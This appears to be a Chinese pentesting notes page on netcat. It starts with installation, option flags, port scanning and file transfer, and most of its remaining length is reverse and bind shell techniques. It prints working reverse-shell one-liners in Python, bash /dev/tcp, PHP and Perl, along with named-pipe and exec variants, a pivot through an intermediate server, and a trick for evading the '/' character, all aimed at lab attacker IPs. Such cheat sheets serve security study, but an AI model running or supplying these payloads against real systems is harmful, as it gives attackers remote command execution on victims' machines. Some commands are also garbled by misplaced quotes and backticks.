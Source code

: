 ```yaml
---
title: nc
id: zhfly3450
---
```


# netcat

### 1、安装

```
wget http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz
tar zxvf netcat-0.7.1.tar.gz
cd netcat-0.7.1
./configure
make 
```

![u87.png](../img/39bdfc50a20ad42af1edc780a771eac3.png)

windows版本的nc。在禁用-e远程执行选项的情况下编译的版本。

> https://joncraton.org/files/nc111nt.zip

> https://joncraton.org/files/nc111nt_safe.zip

### 2、帮助信息速查表

nc -h 查看帮助信息
-d: 后台模式
-e: 程序重定向
-g<网关>: 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目>: 设置源路由指向器的数量，值为4的倍数。
-i<延迟秒数>: 设置时间间隔，以便传送信息及扫描通信端口
-l: 使用监听模式，管理和控制传入的数据
-n: 直接使用IP地址(不通过域名服务器)
-o<输出文件>: 指定文件名称，把往来传输的数据转换为16进制字符后保存在该文件中
-p<通信端口>: 设置本机使用的通信端口
-r: 随机指定本机与远程主机的通信端口
-s<源地址>: 设置本机送出数据包的IP地址
-u: 使用UDP传输协议
-v: 详细输出
-w<超时秒数>:设置等待连线的时间
-z: 将输入/输出功能关闭，只在扫描通信端口时使用

### 3、使用

*   (1) banner相关信息抓取

> nc -nv 192.168.123.103 22

![u88.png](../img/9786b41ca89ce85602a56c1bac1c1e13.png)

*   (2) 连接远程主机

> nc -nvv 192.168.123.103 80

![u89.png](../img/46375790c1b33e77517960d5960df5fd.png)

*   (3) 端口扫描
    扫描指定端口

> nc -v 192.168.123.103 80

扫描端口段(速度很慢)

> nc -v -z 192.168.123.103 20-1024

![u90.png](../img/24a3a48d9dfb4972bfa60cc0767dda3d.png)

*   (4)监听端口
    监听本地端口，当访问该端口时会输出该信息到命令行

> nc -lp 999

![u91.png](../img/8db5053e8dc0ef26cc7edbe23ca197ce.png)

*   (5)文件传输
    传输一个名为test.txt的文本文件

> nc -vn 192.168.1.1 333 < test.txt -q 1

监听，将接受到的数据放到1.txt

> nc -lp 333 > 1.txt

传输完成后，打开1.txt，可看到数据已经传输过来

![a25.png](../img/77815db0a0d3a36703e985d2abe8cd99.png)

*   (6)简易聊天

> nc -l -p 888

> nc -vn 192.168.1.1 888

![u94.png](../img/081fa384458a2047cd042296be5b0a58.png)

### 4、获取shell

*   (1)正向shell
    客户端连接服务器，客户端获取服务器的shell。(目标机监听，攻击机连接)
    目标机命令：

> nc -lvp 4444 -e /bin/sh 在linux中使用

> nc -lvp 4444 -e c:\windows\system32\cmd.exe 在win中使用

攻击机命令：

> nc 192.168.1.1 4444

![u95.png](../img/2a705745103d78d40abbc1dac1197d15.png)
可以看到我们执行ifconfig,变成了目标机的IP,即拿到了目标机的shell

*   (2)反向shell
    客户端连接服务器，服务器获取客户端的shell。通常用在开启防护措施的目标机，如防火墙过滤、端口转发的等。
    (攻击机监听，目标机连接)
    攻击机命令：

> nc -lvp 999

目标机：

> nc 192.168.1.1 999 -e /bin/sh 在linux中使用

> nc 192.168.1.1 999 -e c:\windows\system32\cmd.exe 在win中使用

![u96.png](../img/efcf24322e8fa56c08e021dfbf0fdf75.png)

### 5、目标机无nc时获取反向shell

*   (1)python反向shell

```
攻击机：

nc -lvp 2222

目标机： `python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.136.129”,2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’` 
```

![p22.png](../img/f4224b2636463f9b6f99a8152c026c04.png)

*   (2)bash反向shell

```
攻击机：
nc -lvp 4444 `目标机：

bash -i >& /dev/tcp/192.168.136.129/4444 0>&1` 
```

![p23.png](../img/6b0d2854faa77234a40f78c01fd12d52.png)

*   (3)PHP反向shell

```
攻击机：
nc -lvp 3333 `目标机：

php -r ‘$sock=fsockopen(“192.168.136.129”,3333);exec("/bin/sh -i <&3 >&3 2>&3");’` 
```

![p24.png](../img/25fbfdc5922ee3bc2941f8f03c707ef9.png)

*   (4)perl反向shell

攻击机：
nc -lvp 5555

目标机：

```
perl -e 'use Socket;$i="192.168.136.129";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

![p25.png](../img/ba7ca77e92cbcc05518a8a12cb3ce9cd.png)

*   (5)内网代理
    环境：kali无法访问数据库服务器，但是可以通过web服务器访问数据库服务器

    kali执行:
    nc -lvp 3333
    数据库执行:
    nc -lvp 3333 -e /bin/sh
    web服务器执行：
    nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"

原理：把web服务器当作中间机，使kali与数据库通信

*   (6)技巧之'/'符号绕过(文件传输与python反向shell结合)(来自"熊猫人"的思路)
    前提:靶机可以执行nc和pyhon
    要想反弹shell成功，很大程度上需要'/'符号，但是有些网站，bp发过去的'/'不起作用。

利用nc的传输文件:
nc -lnvp 5555 < cmd
nc localhost 5555 可查看cmd文件内容
cmd的内容如下

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.136.141",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]) 
```

![i27.png](../img/a1df7a99bdc386cc9d81fddf6447c22d.png)

```
攻击机执行：
nc -lnvp 10000 < cmd 如果shell反弹不回去，关掉这部分
nc -lnvp 1234
目标机执行：
nc 192.168.136.129 10000 | python 
```

![i25.png](../img/f4876249ff1a83a1cd141d5eb2f62bf7.png)

*   (7)对于不支持nc -e参数，使用以下命令或使用其他版本nc

```
攻击机：
nc -lvp 1024
目标机：
nc.traditional 192.168.37.132 1024 -e /bin/sh 
```

![a37.png](../img/7c708d9da9c4571690a8ece0380fb126.png)

*   (8)配合命名管道进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.37.132 1024 >/tmp/f 
```

![a38.png](../img/e11a7ef60a20f4070c8ac851b487e389.png)

*   (9)使用exec反弹

```
0<&196;exec 196<>/dev/tcp/192.168.37.132/1024; sh <&196 >&196 2>&196 
```

![a39.png](../img/99ca8fcb6e52c008e28254bf9868320b.png)